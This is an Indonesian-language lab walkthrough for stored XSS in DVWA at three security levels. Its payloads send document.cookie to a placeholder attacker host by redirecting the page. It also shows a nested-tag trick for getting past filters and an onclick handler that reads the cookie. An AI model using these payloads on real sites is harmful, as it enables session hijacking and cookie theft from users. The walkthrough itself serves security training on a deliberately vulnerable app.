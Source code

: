 # XSS Stored
XSS Stored atau Persistent XSS muncul saat aplikasi menerima data dari sumber yang tidak tepercaya dan menyertakan data tersebut dalam respons HTTP selanjutnya dengan cara yang tidak aman.

## Security Low
- Sebelum melakukan uji serangan, ubah maxlength pada **textarea** dari 50 menjadi 500 karakter melalui inspect element

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2017.JPG)

- Masukkan script ini ke field **Message**
```sh
<script>window.location='http://<IP_Server>/?cookie='+document.cookie</script>
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2018.JPG)

## Security Medium
- Sebelum melakukan uji serangan, ubah maxlength pada **input** dari 10 menjadi 100 karakter melalui inspect element

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2019.JPG)

- Masukkan script ini ke field **Name**
```sh
<scr<script>ipt>window.location='http://<IP_Attacker>/?cookie='+document.cookie</script>
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2020.JPG)

## Security High
- Ubah maxlength pada **input** menjadi 100 karakter seperti pada langkah sebelumnya
- Masukkan script ini ke field **Name**
```sh
<a onclick="alert(document.cookie)" style=display:block>test</a>
```
